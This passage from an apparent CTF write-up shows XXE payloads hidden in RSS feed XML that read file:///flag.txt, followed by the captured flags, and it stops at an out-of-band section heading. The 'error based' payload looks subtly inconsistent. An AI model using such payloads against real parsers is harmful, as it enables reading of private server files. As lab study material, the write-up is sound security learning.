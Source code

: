 **Flag: `CTF{l061c_fl0w_15_b4d455}`**

## 0x0F A4 - Practice 1

![](https://i.imgur.com/3IEHHLC.png)

- feed src
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE rss [
        <!ENTITY xxe SYSTEM "file:///flag.txt">
    ]>
    <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
    <channel>
        <title>test</title>
        <link>http://example.com/</link>
        <description>test</description>
        <lastBuildDate>Mn, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
        <item>
            <title>item - test</title>
            <link>http://example.com</link>
            <description>&xxe;</description>
            <author>author</author>
            <pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
        </item>
    </channel>
    </rss>
    ```
- ![](https://i.imgur.com/2bvhDRg.png)

**Flag: `CTF{xxe_via_rss}`**

## 0x10 A4 - Practice 2

![](https://i.imgur.com/2SPsamQ.png)

1. Error based
    - feed src
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE rss [
            <!ENTITY % xxe SYSTEM "file:///flag.txt">
            %xxe;
        ]>
        <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
        <channel>
            <title>test</title>
            <link>http://example.com/</link>
            <description>test</description>
            <lastBuildDate>Mn, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
            <item>
                <title>item - test</title>
                <link>http://example.com</link>
                <description>&xxe;</description>
                <author>author</author>
                <pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
            </item>
        </channel>
        </rss>
        ```
    - ![](https://i.imgur.com/oz70W3E.png)
2. OOB
    - feed src